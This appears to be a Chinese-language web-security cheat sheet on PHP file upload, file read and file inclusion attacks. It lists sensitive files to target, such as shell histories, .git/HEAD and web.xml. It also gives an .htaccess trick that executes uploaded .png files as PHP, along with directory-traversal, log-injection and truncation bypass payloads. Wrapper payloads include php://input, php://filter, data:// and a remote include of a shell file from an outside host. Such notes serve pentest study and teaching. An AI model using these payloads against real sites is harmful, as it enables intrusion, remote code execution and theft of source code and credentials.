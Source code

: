 文件
================================

总体思路
--------------------------------
1. 上传下载覆盖删除
    1. move_uploaded_file
    2. file_put_contents/file_get_contents
    3. unlink
    4. fopen/fgets
2. 包含
    1. LFI
        1. 包含Web日志
        2. 包含SSH日志
    2. RFI
    3. 全局找include, require
3. 正常上传
    1. 看上传是如何确定能否上传文件的



文件读取
--------------------------------
考虑读取可能有信息的文件

- 用户目录
    - .bash_history
    - .zsh_history
    - .profile
    - .bashrc
    - .gitconfig
    - .viminfo

- 站点目录
    - .svn/entries
    - .git/HEAD
    - WEB-INF/web.xml
    - .htaccess

- 特殊文件
    - .swp
    - .swo
    - .bak
    - index.php~
    - ...



文件上传
--------------------------------
像apache这种可以考虑上传.htacess
内容为

::
    
    AddType application/x-httpd-php .png
    php_flag engine 1

就可以用png做php脚本了


文件包含
--------------------------------

基础
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

基础包含

::
    
    <?php include("inc/" . $_GET['file']); ?>

考虑常用的三种包含方式

同目录包含

::

    file=.htaccess

目录遍历

::

    ?file=../../../../../../../../../var/lib/locate.db

日志注入

::

    ?file=../../../../../../../../../var/log/apache/error.log

绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一般在文件包含之前，可能会调用file_exists，那么，如何对其进行绕过呢

1. 截断

1.1 %00截断

    几乎是最常用的方法，条件是magic_quotes_gpc打开，而且php版本小于5.3.4。

1.2 长度截断

    Windows上的文件名长度和文件路径有关。具体关系为：从根目录计算，文件路径长度最长为259个bytes。

    msdn定义```#define MAX_PATH 260```，第260个字符为字符串结尾的```\0```

    linux可以用getconf来判断文件名长度限制和文件路径长度限制

    获取最长文件路径长度：getconf PATH_MAX /root 得到4096
    获取最长文件名：getconf NAME_MAX /root 得到255

    那么在长度有限的时候，```././././``` (n个) 的形式就可以通过这个把路径爆掉

2. 伪协议绕过
    - RCE: requires allow_url_fopen=On and allow_url_include=On
    
    ::

        ?file=[http|https|ftp]://websec.wordpress.com/shell.txt

    - PHP INPUT: specify your payload in the POST parameters, watch urlencoding, details here, requires allow_url_include=On

    ::

        ?file=php://input

    
    - BASE64: lets you read PHP source because it wont get evaluated in base64. More details here and here

    ::

        ?file=php://filter/convert.base64-encode/resource=index.php

    
    - DATA: requires allow_url_include=On

    ::

        ?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=


3. url绕过
4. 特殊字符绕过

